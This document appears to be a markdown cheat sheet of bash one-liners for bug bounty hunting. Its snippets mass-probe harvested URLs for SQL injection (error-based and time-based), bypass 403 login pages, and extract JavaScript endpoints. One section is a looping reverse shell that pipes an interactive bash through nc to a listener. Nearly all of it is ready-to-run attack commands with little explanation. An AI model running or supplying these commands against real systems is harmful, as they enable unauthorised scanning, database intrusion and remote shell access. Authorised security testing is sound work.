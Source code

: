 ## Simple 1Line #BASH For #BugBounty.

```
waybackurls TARGET.COM | grep = | tee urls.txt | nuclei -dast
```

```
gau TARGET.COM | grep = | tee urls.txt | nuclei -dast
```


## 1Line BASH To Perform #SQL_Injection For BugBounties.

```
cat urls.txt | grep ".php" | sed 's/\.php.*/.php\//' | sort -u | sed s/$/%27%22%60/ | while read url do ; do curl --silent "$url" | grep -qs "You have an error in your SQL syntax" && echo -e "$url \e[1;32mVulnerable to SQLI Injection\e[0m" || echo -e "$url \e[1;31mNot Vulnerable to SQLI Injection\e[0m" ;done
```


## LazyEgg - Hunting JS Files.

```
waybackurls target | grep '\.js$' | awk -F '?' '{print $1}' | sort -u | xargs -I{} bash -c 'echo -e "\ntarget : {}\n" && python lazyegg[.]py "{}" --js_urls --domains --ips'
```


## Reverse Shell Bash Loop.

```
while true; do sleep 5 && mknod /dev/shm/p p; cat /dev/shm/p | /bin/bash -i | nc 127.0.0.1 9001 >/dev/shm/p; done
```


## Find JavaScript Files.

```
assetfinder --subs-only HOST | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Zo-9_]+" | sed -e 's, 'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'):echo -e "\e[1;33m$url\n" "\e[1;32m$vars"; done
```


## Extract Endpoints from JavaScript.

```
cat FILE.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u
```

## Find Subdomain.

```
subfinder -d target.com -silent | httpx -silent -o urls.txt
```


## SQLi-TimeBased scanner.

```
gau TARGET.COM | sed 's/=[^=&]*/=YOUR_PAYLOAD/g' | grep ?*= | sort -u | while read host;do (time -p curl -Is $host) 2>&1 | awk '/real/ { r=$2;if (r >= TIME_OF_SLEEP ) print h " => SQLi Time-Based vulnerability"}' h=$host ;done
```


## search javascript file.

```
gau -subs TARGET.COM |grep -iE '\.js'|grep -iEv '(\.jsp|\.json)' >> js.txt
```


## 403 login Bypass.

```
cat hosts.txt | httpx -path /login -p 80,443,8080,8443 -mc 401,403 -silent -t 300 | unfurl format %s://%d | httpx -path //login -mc 200 -t 300 -nc -silent
```


## Recon Parameters.

```
echo tesla.com | subfinder -silent | httpx -silent | cariddi -intensive
```
